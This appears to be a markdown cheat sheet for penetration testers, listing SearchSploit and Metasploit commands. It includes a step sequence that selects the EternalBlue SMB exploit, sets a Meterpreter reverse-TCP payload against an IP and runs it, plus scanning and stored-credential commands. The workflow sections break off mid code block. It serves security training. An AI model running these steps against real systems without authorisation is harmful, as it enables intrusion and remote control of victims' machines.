# Exploitation
## SearchSploit
| Command                                  | Description                                             | Example                                      |
|------------------------------------------|---------------------------------------------------------|----------------------------------------------|
| `searchsploit [keyword]`                 | Searches Exploit-DB for exploits matching a keyword.    | `searchsploit apache`                        |
| `searchsploit -t [keyword]`              | Displays search results in a tree format.              | `searchsploit -t wordpress`                  |
| `searchsploit -p [EDB-ID]`               | Shows the full path to an exploit in the database.      | `searchsploit -p 49733`                      |
| `searchsploit -m [EDB-ID]`               | Copies an exploit to the current directory.             | `searchsploit -m 49733`                      |
| `searchsploit --nmap [file]`             | Searches for exploits using an Nmap XML output file.    | `searchsploit --nmap scan.xml`               |
| `searchsploit -x [file]`                 | Displays the content of an exploit file.                | `searchsploit -x exploits/linux/remote/49733.py` |
| `searchsploit --www`                     | Opens results directly in Exploit-DB website.           | `searchsploit apache --www`                  |
| `searchsploit -w [keyword]`              | Searches Exploit-DB online and shows web links.         | `searchsploit -w apache`                     |

## Common Workflow
1. **Basic Search**  
   Use `searchsploit` with a keyword to find relevant exploits:  
   ```bash
   searchsploit apache


## Metasploit Framework
| Command                            | Description                                             | Example                                      |
|------------------------------------|---------------------------------------------------------|----------------------------------------------|
| `msfconsole`                       | Launches the Metasploit Framework console.             | `msfconsole`                                 |
| `search [keyword]`                 | Searches for modules matching the keyword.             | `search smb`                                 |
| `use [module]`                     | Selects a specific module to use.                      | `use exploit/windows/smb/ms17_010_eternalblue` |
| `show options`                     | Displays options required for the selected module.      | `show options`                               |
| `set [option] [value]`             | Sets a specific value for a module option.             | `set RHOSTS 192.168.1.100`                   |
| `show payloads`                    | Lists payloads compatible with the selected module.     | `show payloads`                              |
| `set PAYLOAD [payload]`            | Selects a payload for the exploit.                     | `set PAYLOAD windows/meterpreter/reverse_tcp`|
| `exploit` or `run`                 | Executes the selected exploit.                         | `exploit`                                    |
| `sessions -l`                      | Lists all active sessions.                             | `sessions -l`                                |
| `sessions -i [session_id]`         | Interacts with a specific session.                     | `sessions -i 1`                              |
| `background`                       | Sends the active session to the background.             | `background`                                |

## Auxiliary & Other Commands
| Command                            | Description                                             | Example                                      |
|------------------------------------|---------------------------------------------------------|----------------------------------------------|
| `use auxiliary/scanner/portscan/tcp` | Selects a TCP port scanning auxiliary module.          | `use auxiliary/scanner/portscan/tcp`        |
| `set THREADS [number]`             | Sets the number of threads for parallel operations.     | `set THREADS 10`                            |
| `db_status`                        | Displays the current database status.                  | `db_status`                                 |
| `db_connect [user:pass@host/db]`   | Connects Metasploit to a database.                     | `db_connect msf:password@127.0.0.1/msfdb`   |
| `db_nmap [nmap_options]`           | Runs Nmap and imports the results into Metasploit.      | `db_nmap -sV 192.168.1.0/24`                |
| `creds`                            | Displays stored credentials in the database.            | `creds`                                     |
| `hosts`                            | Lists all hosts in the database.                        | `hosts`                                     |

## Common Workflow
1. **Search for Exploits**  
   Use `search` to find an exploit or module relevant to your target:  
   ```bash
   search smb
